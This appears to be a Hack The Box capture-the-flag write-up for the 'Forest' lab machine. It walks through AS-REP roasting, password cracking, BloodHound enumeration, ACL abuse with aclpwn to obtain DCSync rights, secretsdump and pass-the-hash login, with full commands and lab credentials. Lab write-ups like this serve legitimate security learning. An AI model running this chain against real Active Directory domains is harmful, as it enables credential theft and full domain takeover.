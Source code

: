 ```yaml
---
layout: single
title:  "HTB - Forest Writeup - 10.10.10.161"
date:   2020-06-08 14:45:23 +0100
categories: hackthebox
---
```


![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/2qlvus10kpyovinvrdjj.png)

# HTB - Forest Writeup - 10.10.10.161

This machine is rated easy difficulty and involved abusing kerberos pre-authentication to kerberoast a hash of a local service account using the impacket script `GetNPUsers`. Root required using bloodhound to visualize the AD environment and find a path to the domain admin, which included abusing ACL's to get DCSync rights.


## 1. Recon

As usual we will start with an nmap scan of the target machine.
`nmap -sC -sV -oA nmap/scan 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/y5ve5duwo71bc01j1m44.png)
The ports of note here are:
* 445 - SMB
* 88 - Kerberos
* 135 - RPC
* 5985 - Powershell - WSMan - Remote Management 


Knowing that we have rpc open we can try null authentication to get a list of user accounts
`rpcclient -U "" -N 10.10.10.161` `enumdomusers`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ozrr70r5kgd6wk5qqosf.png)

 - One account is of particular interest as is starts with `svc` which indicates it may be a service account which would mean we can abuse its special permissions relating to local groups and users
 - We can attempt to kerberoast this user to try and get a hash we can crack

## 2. Exploitation to User

Clone the [Impacket repo](https://github.com/SecureAuthCorp/impacket) and navigate into the examples folder
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8rrjysjhmo5awcrfk68g.png)

Now try try attacking the `svc-alfresco` account:
* If you remember from the nmap scan the domain was `htb.local`
`./GetNPUsers.py htb.local/svc-alfresco -format john -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/cvwm8bcl1ojxr7ew4g62.png)
Bingo! We now have the asrep hash of the user `svc-alfresco` and we can crack is using johntheripper
1. First place the hash in a file called hash.txt
2. Run `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/uladgd2oswyy4gsg5n0w.png)
* We now have the password of the user svc-alfresco - s3rvice

Now we can login to the powershell remote management port using a tool called [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70no1wzqykv6yl5eal8j.png)

Now that we have a shell we can also grab `user.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/eqt6x8uwh1bs6ixell2n.png)

## 3. Priv Esc from User to Domain Admin
* For this priv esc we will use a tool called bloodhound to visualise the Active Directory environment - follow this guide on how to set it up on your system [BloodHound Wiki](https://bloodhound.readthedocs.io/en/latest/index.html)

To begin we need to initialize the neo4j database, you can do this by running: `neo4j console`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ncikv9qhqfgs4kv1tp58.png)

Now that the db has been launched we can launch blood hound by running `bloodhound` in a terminal
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70n5ncns9wny2bw3z3v4.png)

Now that bloodhound is running, we need some data to analyze, we can use the SharpHound.exe file and the upload and download capabilities of Evil-WinRM to get the files.
Open a new terminal and download the SharpHound.exe file from github
`https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/iin83gg0xty15r0wzps5.png)

Now in your Evil-WinRM terminal type: `upload SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7od4miigwy2k6sw2bq6f.png)

Now we can run the file with the `-c All` flag to to specify we wan't to collect all data on the AD environment
`.\SharpHound.exe -c All`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/wera23epacu76kcnetfi.png)

`ls` `download 20200506091425_BloodHound.zip`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fefgmf7zsksz6y0mk5af.png)

We now have the bloodhound zip file on our local machine so we can open it in bloodhound by dragging it into the window 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/12nb43yp3fbjmsdsvngl.png)
* You should now see that we have a lot of data in our database

Now we can run one of the pre-made queries `Shortest Paths to Unconstrained Delegation Systems` 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7c9vjeaqomb8sot6xbye.png)
There are a few things that we can see now:
* We are part of the privileged IT group and as a result part of Account Operators can be a member Exchange Windows Permissions and Exchange Trusted Subsystem Group
* Firstly, this means that we can add ourselves to Exchange Windows Permissions and Exchange Trusted Subsystem Group
* This also means we can abuse ACL (Access Control List) to allow svc-alfresco to perform a DCSync attack to get the admin hash, here is a good video that explains this, [Here](https://www.youtube.com/watch?v=QfyZQDyeXjQ)

Let's try adding ourselves to this group new group:
`net group "Exchange Windows Permissions" svc-alfresco /add`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/c1rqpd51i953tflk5bzn.png)

We can also add ourselves to the `Exchange Trusted Subsystem Group` which will allow us to abuse ACL
`Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/mi71qtpg1f92lk8xeyc4.png)

We can now use a tool called `aclpwn` to give `svc-alfresco` DCSync rights. There is an article here that describes it's usage very well - [ACLPWN Blog](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)

1. Lets install aclpwn in kali, it's as simple as `pip install aclpwn`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ld4bmnztdkqyw7fd2r0e.png)

2. Lets execute this command to give us DCSync permissions
`aclpwn -f svc-alfresco -ft user -d htb.local -s 10.10.10.161` and use option 1
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fqz304mu486dxa7brlwm.png)


3. Now we can use impacket's `secretsdump.py` to get the admin hash
`secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/u2oswynll38jweio651f.png)

### Bingo! We now have the admin hash

We can use this to logon using Evil-WinRM with the -H flag and grab `root.txt`
`evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/r6xpmwnxroiu8qijd4d6.png)

## Rooted!

If you enjoyed my write up or found it useful check out my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

